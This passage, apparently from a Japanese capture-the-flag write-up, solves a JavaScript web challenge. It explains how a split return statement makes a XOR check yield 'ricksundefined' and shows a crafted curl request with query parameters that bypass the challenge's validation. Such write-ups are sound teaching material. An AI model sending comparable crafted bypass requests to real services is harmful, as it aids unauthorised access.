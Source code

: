 ```javascript
}
```

`ricks` という文字列と `XOR` という関数に `lord` を与えた返り値を結合したものが `rord` と等しければよいようです。`XOR` がどのような関数か確認しましょう。

```javascript
const XOR = ((str) => {
  let i, num = Math.floor(Math.random() * 1337), encoded = "";

  for (i = 0; i < str.length; i++) {
    encoded += str.charCodeAt(i) ^ num;
  }

  return
    encoded;
});
```

乱数と XOR されていてこれは予測できなさそうです。が、よく見ると `return` 文がなぜか 2 行に分割されており、自動セミコロン挿入によって `return; encoded;` と書いた場合と等価な挙動をしそうな雰囲気があります。DevTools の Console タブで試してみましょう。

```
> XOR('hoge')
< undefined
> XOR('fuga')
< undefined
```

何を投げても `undefined` が返ってきます。これなら `"ricks".concat(XOR(lord))` は常に `ricksundefined` になりますね。

```
$ curl -X POST -g 'http://(省略)/?worldoor=/home/ctf/rickstufF&teleport=13333333333333333333&bridge
[]=d0wnth3r3&neworld=777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
777&lord=a&rord=ricksundefined&worldname=a&component=b'
Again Morty, touching things that I always say don't touch.
```

### worldname, component
```javascript
let worldname = req.query.worldname;
let component = req.query.component;
if (!Array.isArray(worldname) && (typeof worldname) !== "object" && !Array.isArray(component) && (typeof component) !== "object") {
  if (/^[1-9]+$/.test(worldname) && /^[1-9]+$/.test(component)) {
    if (("A" + worldname / component + "as").toLowerCase() === "ananas") {
      // …
    }
    else {
      res.end("Stop skipping math class Morty.");
    }
  }
  else {
    res.end("Again Morty, touching things that I always say don't touch.");
  }
}
else {
  res.end("Come on Morty it only accepts numbers.");
}
```

